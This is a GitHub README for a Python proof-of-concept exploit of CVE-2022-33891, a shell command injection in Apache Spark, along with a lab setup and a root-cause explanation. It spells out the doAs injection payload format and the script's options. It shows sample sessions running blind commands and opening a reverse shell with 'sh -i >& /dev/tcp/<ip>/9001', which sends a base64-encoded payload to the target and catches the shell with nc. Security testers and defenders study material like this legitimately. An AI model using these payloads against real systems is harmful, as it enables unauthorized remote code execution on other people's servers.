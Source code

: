 # CVE-2022-33891
Apache Spark Shell Command Injection Vulnerability

A Python POC for exploiting the Apache Spark Shell Command Injection vulnerability. I saw some other POCs out there but they looked mega sus. This one is clean and simple.

I did not discover this exploit/vulnerability. I just wanted to make a testing tool for the ethical hacking community ^.^

Script by HuskyHacks, optimized for Arch Linux/hunting by CyberQueenMeg

CVE originally discovered by  Kostya Kortchinsky from Databricks.

## Affected Versions
Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

## Vulnerable component
```
http://localhost:8080/?doAs=`[command injection here]`
```
Example
```
http://localhost:8080/?doAs=`echo%20%22c2xlZXAgMTAK%22%20|%20base64%20-d%20|%20bash`
```
... sleeps for 10 seconds


## Setup
You need a vulnerable version of Spark that has a single config option changed.

- Install the dependencies: `$ pip3 install -r requirements.txt`
- Change directories into the `spark/` directory.
- Use the provided `docker-compose.yml` in the `spark/` directory and run `docker-compose up`. Let the container spin up.
- In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
- In the container bash session, enter: `echo "spark.acls.enable       true" >> conf/spark-defaults.conf`
- Optionally, cat the contents of spark-defaults.conf to make sure it looks good.
- Exit the interactice bash shell and Ctl-C your docker-compose process.
- Once the containers have powered down gracefully, rerun `docker-compose up`


## Usage
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 poc.py -h
usage: poc.py [-h] -u URL -p PORT [--revshell]
              [-lh LISTENINGHOST] [-lp LISTENINGPORT]
              [--check] [--verbose]

CVE-2022-33891 Python POC Exploit Script

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to exploit.
  -p PORT, --port PORT  Exploit target's port.
  --revshell            Reverse Shell option.
  -lh LISTENINGHOST, --listeninghost LISTENINGHOST
                        Your listening host IP address.
  -lp LISTENINGPORT, --listeningport LISTENINGPORT
                        Your listening host port.
  --check               Checks if the target is
                        exploitable with a sleep test
  --verbose             Verbose mode

```

## Examples

Check to see if the target is vulnerable:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --check --verbose
[*] Attempting to connect to site...
[*] URL request: http://localhost:8080/?doAs='testing'
[*] Response status code: 403
[!] Performing sleep test of 10 seconds...
[*] T1: 2022-07-22 10:47:48.406996
[*] Command is: sleep 10
[*] Base64 command is: c2xlZXAgMTA=
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgMTA= | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[*] T2: 2022-07-22 10:47:58.425108
[*] Delta T: 10
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Issue commands in a command prompt loop:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --verbose
[*] "Interactive" mode!
[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.
[cve-2022-33891> sleep 5
[*] Command is: sleep 5
[*] Base64 command is: c2xlZXAgNQ==
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgNQ== | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[cve-2022-33891> 
```

Execute a reverse shell:
```
husky@dev-kde:~/Desktop/cve-2022-33891$ python3 poc.py -u http://localhost -p 8080 --revshell -lh 10.10.1.237 -lp 9001 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 9001
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/10.10.1.237/9001 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx | base64 -d | bash`
[*] Sending exploit...

...[in the other terminal]...

husky@dev-kde:~/Desktop/cve-2022-33891$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 172.19.0.2 52136
sh: 0: can't access tty; job control turned off
$ whoami
spark
$ echo "hackerman"
hackerman
$ 
```

## More Info
The command injection occurs because Spark checks the group membership of the user passed in the `?doAs` parameter by using a raw Linux command. Bash interpolation runs the command, sends the output to the `id` field, and attempts to look up the resulting user.

Passing in `which python` as the value of `?doAs=` user produces this result in the traceback:
```
...
http://localhost:8080/?doAs=`which%20python`
...

spark_1  | 22/07/22 15:15:57 INFO Utils: id: '/opt/bitnami/python/bin/python': no such user
spark_1  | 22/07/22 15:15:57 ERROR Utils: Process List(bash, -c, id -Gn `which python`) exited with code 1: 
spark_1  | 22/07/22 15:15:57 ERROR Utils: Error getting groups for user=`which python`
```
Here, Java has decided it would be best to pass in the `id` command into `bash -c` to check the group membership for a specified user. Problem is, that also allows command injection. Bash interpolation has evaluated the given command and printed the results on line 1 of this output and tries to look up the user by the stdout of the command.

There's no user named `/opt/bitnami/python/bin/python` but that sure as hell means the command was passed to Bash and executed.

Patched versions parametrize this call to have a full path to the `/bin/id` command instead of to `bash -c id`.

It's worth noting that there is nothing reflected back on the page during command execution, so this is blind OS injection. Your commands run, but there will be no indication if they worked or not or even if the program you're running is on the target. For example, the container that is spun up with the `docker-compose.yml` file in this repo does not have ping, so checking for command injection via a pingback will not work. But you won't know that's the case so you'll be left wondering if it worked or not.

The sleep test is a safe bet ^.^

## OPSEC

I spent precisely zero cycles making this OPSEC safe. Red teamers, that's on you.

## Disclaimer
This POC has no passive enumeration capability. The exploit is a blind command injection. If you use this script against a target, you are sending packets to it. Even if you use the `--check` parameter and the target is vulnerable, you are actively exploit it to prove that it's vulnerable.

Don't use this on production systems that are sensitive to testing. Do not use this against targets if you do not have authorization to do so. I'm not even close to liable for how you choose to use this.

Peep the license.

## References
- https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/
- https://nvd.nist.gov/vuln/detail/CVE-2022-33891
- https://spark.apache.org/docs/2.1.0/configuration.html
- https://github.com/W01fh4cker/cve-2022-33891 (I do not recommend using this POC)


